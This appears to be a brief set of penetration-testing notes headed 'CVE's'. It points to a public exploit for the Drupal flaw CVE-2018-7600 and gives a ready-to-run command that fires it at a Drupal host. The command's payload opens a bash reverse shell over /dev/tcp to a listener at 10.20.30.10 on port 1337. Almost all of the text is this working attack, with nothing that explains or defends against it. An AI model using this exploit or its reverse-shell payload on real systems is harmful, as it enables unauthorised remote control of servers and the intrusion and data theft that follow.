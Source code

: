 # CVE’s

`To get a reverse shell:` https://github.com/pimps/CVE-2018-7600

```bash
python3 drupa7-CVE-2018-7600.py -c 'bash -c "bash -i &>/dev/tcp/10.20.30.10/1337 <&1"' http://10.20.30.12/
```